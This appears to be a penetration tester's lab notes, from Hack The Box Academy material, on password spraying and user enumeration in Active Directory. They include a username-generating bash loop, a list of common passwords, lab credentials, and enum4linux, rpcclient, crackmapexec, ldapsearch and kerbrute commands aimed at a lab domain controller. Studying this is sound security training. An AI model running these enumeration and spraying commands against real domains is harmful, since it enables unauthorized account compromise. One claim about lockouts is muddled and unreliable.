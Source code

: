 Password Spraying
###################

Date: 2024-12-20 09:50:14

Status: #new

Tags: :ref:`active directory enumeration attacks`

----


Description
*************

Password spraying uses a list of usernames and attempts to connect to these 
accounts with a common password.  This is effective, especially if the system 
has password lockouts enabled.

A popular username list is (https://github.com/insidetrust/statistically-likely-usernames)
and you can combine this with your own information gathered via :ref:`osint framework`.

Selecting a common password like `Welcome1` may yield an account that you can use with Bloodhound to further enumerate 
the domain.


Account list construction example
*************************************

During your OSINT activities you discover that the username format for this
domain is F8L9 ( first 8  + last 9 ) of the user.  By running this bash loop you can 
generate 16,679,616 possible usernames. 

.. code-block:: bash

    #!/bin/bash

    for x in {{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}
        do echo $x;
    done

Using this new list from your bash script, you can use this with :ref:`kerbrute` and 
enumerate every account in the domain. 

Common passwords 
******************

1. Welcome1
2. Passw0rd
3. Winter2024 

Make sure that when you are doing password spray attacks that you keep detailed logs of 

1. The accounts targeted 
2. Domain controller targeted during 
3. Date/time of the spray
4. What password(s) were attempted
   
.. danger:: Failed logon attempts create a code 4625: An account failed to log on

Some tools that can leverage SMB NULL sessions to build user lists:

1. Using :ref:`enum4linux-ng`

.. code-block:: console

    # This will find the users and create a list for
    enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

2. Using :ref:`rpcclient`

.. code-block:: console

    rpcclient -U "" -N 172.16.5.5
    rpcclient $> enumdomusers 
    user:[administrator] rid:[0x1f4]
    user:[guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[lab_adm] rid:[0x3e9]
    user:[htb-student] rid:[0x457]
    user:[avazquez] rid:[0x458]

3. Using :ref:`crackmapexec` with the --users flag

.. code-block:: console

    crackmapexec smb 172.16.5.5 --users

4. Using :ref:`ldapsearch` with anonymous

.. code-block:: console

    ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "


5. Using :ref:`windapsearch`

.. code-block:: console

    ./windapsearch.py --dc-ip 172.16.5.5 -u "" -U

Enumerating Users with :ref:`kerbrute`
*******************************************

This method is much faster and does not create an event ID of `4625: An account failed to log on` since it uses Kerberos Pre-Authentication.

Example:  Using a username list (jsmith.txt [ https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith.txt]) with Kerbrute  

.. code-block:: console

    kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
    
This will check over 48K users if 12 seconds.

Enumerating users with valid credentials
******************************************

Using  :ref:`crackmapexec`

.. code-block:: console

    sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users

.. admonition::  Lockouts
    
    To prevent lockouts, it is wise to introduce a delay in your account attempts.

.. hint:: If possible ask the client for their password policy to understand the retries, and delays for your attacks.



References
************

https://academy.hackthebox.com/module/143/section/1424
https://academy.hackthebox.com/module/143/section/1455
